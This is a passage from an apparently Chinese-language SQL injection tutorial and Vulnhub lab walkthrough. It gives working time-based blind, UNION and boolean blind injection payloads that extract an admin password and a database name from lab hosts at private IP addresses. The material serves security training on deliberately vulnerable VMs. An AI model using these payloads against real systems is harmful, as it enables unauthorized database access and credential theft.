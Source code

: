 ``````
```

### 1x24 Blind SQL Injection (*time*)

```
http://192.168.123.25:65412/?id=1 and (SELECT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE name='admin'),2,1)='e') THEN (LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000))))) ELSE 0 END))
```

```
这个漏洞环境用到了 SQLITE3 中的 CASE 窗口函数与 RANDOMBLOB 来实现的基于时间的盲注。 
MSQL: sleep(2) 
MSSQL: WAITFOR DELAY '0:0:2'
```

### 1x25 UNION SQL Injection

基于联合查询注入: 使用`UNION`运算符用于SQL注入，`UNION`运算符是关联两个表的查询结果。攻击者故意伪造的恶意的查询并加入到原始查询中, 伪造的查询结果将被合并到原始查询的结果返回，攻击者会获得其他表的信息。

```
http://192.168.123.25:65412/?id=2 UNION ALL SELECT NULL, NULL, NULL, (SELECT id||','||username||','||password FROM users WHERE username='admin')
```



# 真实靶场演练
## 2x00 Vulnhub 简介
Vulnhub是一个提供各种漏洞环境的靶场平台，供安全爱好者学习渗透使用，大部分环境是做好的虚拟机镜像文件，镜像预先设计了多种漏洞，需要使用VMware或者VirtualBox运行。每个镜像会有破解的目标。
## 2x10 Vulnhub 安装

> - 下载(https://www.gracefulsecurity.com/Seattle-0.0.3.7z)

![1559804239019](assets/1559804239019.png)

## 2x20靶场漏洞介绍

Graceful的VulnVM是在虚拟机上运行的Web应用程序，它旨在模拟一个简单的电子商务风格网站，该网站特意容易受到Web应用程序中常见的许多众所周知的安全问题的影响。这实际上是该项目的预发布预览版，但它确实具有实用性，但我计划在不久的将来对此进行大量工作。

该计划最终使应用程序容易受到大量问题的影响，选择不同的过滤器处于不同的困难，以便测试人员能够更好地检测和利用应用程序可以通过常见的开发方法加强的问题，以便测试人员能够更广泛的经验。

第一批过滤器现已实施！该应用程序现在支持“级别”，其中级别1不包括用户输入的实际过滤，级别2包括针对每个易受攻击的功能的简单过滤器。

## 2x30靶场实战演示

**第一个盲注**在products.php页面存在盲注，通过测试发现是数字型盲注

```
http://10.1.0.239/products.php?type=1%20and%201=1  能正常显示
http://10.1.0.239/products.php?type=1%20and%201=2  不能正常显示
```

构造语句爆破数据库名，使用之前的python脚本进行爆破。

```
http://10.1.0.239/products.php?type=1%20and%20mid(database(),1,1)=%27D%27
```

爆破出来数据库名为seattle

![1559815650493](assets/1559815650493.png)

``````